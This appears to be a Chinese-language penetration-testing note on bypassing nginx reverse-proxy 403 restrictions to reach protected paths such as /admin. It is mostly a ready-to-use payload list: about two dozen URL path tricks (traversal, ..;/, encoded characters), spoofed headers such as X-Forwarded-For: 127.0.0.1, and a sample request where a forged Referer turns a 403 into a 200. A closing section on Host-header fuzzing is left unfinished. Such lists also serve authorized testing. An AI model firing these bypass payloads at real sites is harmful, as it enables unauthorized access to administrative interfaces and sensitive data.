 ## 0x00 技术背景

       之前碰过几个项目，中间件nginx做反向代理，后端代码是PHP或者JAVA，过nginx一般会识别ip，从而限制攻击者访问敏感路径，所以可以通过绕过方式限制nginx
       
       
## 0x01 forbidden绕过


      site.com/admin => 403
      site.com/admin/ => 200
      site.com/random-dir/../admin => 200
      site.com/random-dir/..;/admin => 200
      site.com/random-dir/..%252F/admin => 200
      site.com/admin// => 200
      site.com//admin// => 200
      site.com/admin/* => 200
      site.com/admin/*/ => 200
      site.com/admin/. => 200
      site.com/admin/./ => 200

      site.com/./admin/./ => 200
      site.com/admin/./. => 200
      site.com/admin/./. => 200
      site.com/admin? => 200
      site.com/admin?? => 200
      site.com/admin??? => 200
      site.com/admin..;/ => 200
      site.com/admin/..;/ => 200
      site.com/%2f/admin => 200
      site.com/%2e/admin => 200
      site.com/admin%20/ => 200
      site.com/admin%09/ => 200
      site.com/%20admin%20/ => 200
      site.com/%0dadmin => 200
      
## 0x02 添加各种头

     - X-Originating-IP: 127.0.0.1
     - X-Remote-IP: 127.0.0.1
     - X-Client-IP: 127.0.0.1
     - X-Forwarded-For: 127.0.0.1
     - X-Forwared-Host: 127.0.0.1
     - X-Host: 127.0.0.1
     - X-Custom-IP-Authorization: 127.0.0.1
     
      Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。
      
      GET /auth/login HTTP/1.1
      Host: xxx
      Response
      HTTP/1.1 403 Forbidden

      Reqeust
      GET / HTTP/1.1
      Host: xxx
      ReFerer:https://xxx/auth/login
      Response
      HTTP/1.1 200 OK

      之前碰见个项目，访问后台，提示403，添加Referer提示302成功


## 0x03 修改host头

      我们先说下 Host 在请求头中的作用，在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过 host 头来指定应该由哪个网站或者 web 系统来处理用户       的请求。
      而很多 WEB 应用通过获取 HTTP HOST 头来获得当前请求访问的位置，但是很多开发人员并未意识到 HTTP HOST 头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。
      当服务器获取 HOST 的方式不当时，我们可以通过修改 Host 值来进行绕过。首先对该目标域名进行子域名收集，整理好子域名资产（host 字段同样支持 IP 地址）。先 Fuzz 测试跑一遍收集到       的子域名，这里使用的是 Burp 的 Intruder 功能。
